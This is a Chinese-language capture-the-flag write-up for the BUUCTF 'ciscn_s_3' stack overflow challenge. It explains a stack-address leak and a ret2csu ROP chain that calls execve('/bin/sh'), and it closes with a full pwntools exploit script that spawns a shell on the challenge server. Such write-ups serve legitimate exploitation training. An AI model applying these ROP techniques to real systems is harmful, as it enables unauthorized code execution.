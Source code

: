 首先checksec

![image-20201106160828730](https://static.hack1s.fun/images/2021/02/06/image-20201106160828730.png)

开启了NX的64位程序

这个程序比较奇怪，反编译了vuln函数之后可以看到

![image-20201106161721030](https://static.hack1s.fun/images/2021/02/06/image-20201106161721030.png)

是调用了一次read，一次write

但这里没法直接看到具体调用的参数，用gdb跑起来看一下

跑到read这里的时候的三个参数分别是

![image-20201106161814576](https://static.hack1s.fun/images/2021/02/06/image-20201106161814576.png)

```C
read(0,buf,0x400);
```

也就是说从stdin读了最多0x400到栈上

之后又调用了write函数，执行到这里的时候各个参数为

![image-20201106162215451](https://static.hack1s.fun/images/2021/02/06/image-20201106162215451.png)

```c
write(1,buf,0x30);
```

也就是说从栈上的buf将0x30长度的内容写到stdout上

但是这个vuln函数向下执行的时候就没办法正常的返回了，因为栈上已经都是'a'了

计算一下偏移，81-65=16

由于开启了NX，这个明显要用ROP了

由于是64位的程序，很可能是ret2csu

另外程序还给了一个gadget的函数，里面存在几个可以用到的gadget

![image-20201106221342423](https://static.hack1s.fun/images/2021/02/06/image-20201106221342423.png)

这一个函数中给到了三个gadget

这里给出的一个`mov rax,3Bh; retn`

之后可以尝试去调用`syscall`，因为`3Bh`对应的59在系统调用号中正好是`execve`

![image-20201106221705844](https://static.hack1s.fun/images/2021/02/06/image-20201106221705844.png)

全部的系统调用号对应表：[https://www.cnblogs.com/tcctw/p/11450449.html](https://www.cnblogs.com/tcctw/p/11450449.html)

如果我们想要执行`execve("/bin/sh")`，那么就需要在栈中存储这个字符串，之后将这个字符串的地址赋给rdi，最后调用execve

在执行到write的那个syscall时，栈中rsi指向了栈中的buffer

![image-20201106225441796](https://static.hack1s.fun/images/2021/02/06/image-20201106225441796.png)

由于这里输出的是0x30的内容，此时栈顶是从上面字符串c开始的位置

![image-20201106225608750](https://static.hack1s.fun/images/2021/02/06/image-20201106225608750.png)

因此输出0x30的内容的话，会将栈中另外两个内容输出出来，这其中恰好有一个是指向栈上的地址

在上面的图中就是`0x00007fffffffde38`以及另外一个`0x0000000100000000`

这个`de38`距离我们字符串的开头`dd20`相差了`0x118`

我们就可以用得到的这个值进行定位



至于调用execve的过程，首先将rax设置为execve的调用号

之后ret回来之后设置一下几个寄存器中的值

需要注意的是，execve函数在调用时，实际上需要三个参数，最开始尝试直接运行`execve('/bin/sh')`失败了，网上查了说后面两个参数需要为0，也就是说在运行时我们需要令`rdi=*"/bin/sh"`, `rsi=0`, `rdx=0`

但是在gadget中搜索没有找到为rdx赋值的gadget

我们就只能是用到ret2csu来控制rdx的值了

首先执行`__libc_start_main`中的后面一部分pop

![image-20201107111533619](https://static.hack1s.fun/images/2021/02/06/image-20201107111533619.png)

之后执行前面那一块的mov

![image-20201107111556821](https://static.hack1s.fun/images/2021/02/06/image-20201107111556821.png)

这里我们的目的是给rdx赋值，所以需要控制r13

由于我们设置rbx=0，实际上call的位置就是r12寄存器控制的，这里设置r12的值为栈上当前下一个地址，即pop_rdi的地址

```python
payload = '/bin/sh\x00'*2 + p64(rax_3b) 
payload += p64(csu_pop) + p64(0) + p64(1) + p64(r12) + p64(0) + p64(0) + p64(r15)
payload += p64(csu_mov)
payload += p64(pop_rdi) + p64(payload_addr) + p64(syscall_addr)
```

写的时候发现一个问题就是第一次payload回来的位置不对，这个程序经过了一次调用vuln，所以回来的地址应该是`elf.sym['vuln']`，之前写成`main`就错了

```python
from pwn import *

io = remote('node3.buuoj.cn',29878)
#io = process('./ciscn_s_3')
elf = ELF('./ciscn_s_3')

main = elf.sym['vuln']
syscall_addr = 0x400517


payload = '/bin/sh\x00'*2 + p64(main)

io.sendline(payload)
io.recv(0x20)
payload_addr = u64(io.recv(0x8)) - 0x118
print('payload address is:',hex(payload_addr))
io.recv(0x8)

rax_3b = 0x4004e2
pop_rdi = 0x4005a3

csu_pop = 0x40059A
csu_mov = 0x400580

payload = '/bin/sh\x00'*2 + p64(rax_3b)
payload += p64(csu_pop) + p64(0) + p64(0) + p64(payload_addr + 0x58) + p64(0) + p64(0) + p64(0)
payload += p64(csu_mov)
payload += p64(pop_rdi) + p64(payload_addr) + p64(syscall_addr)

io.sendline(payload)
io.interactive()
```

这个题目还可以用SROP来做，之后有机会再写。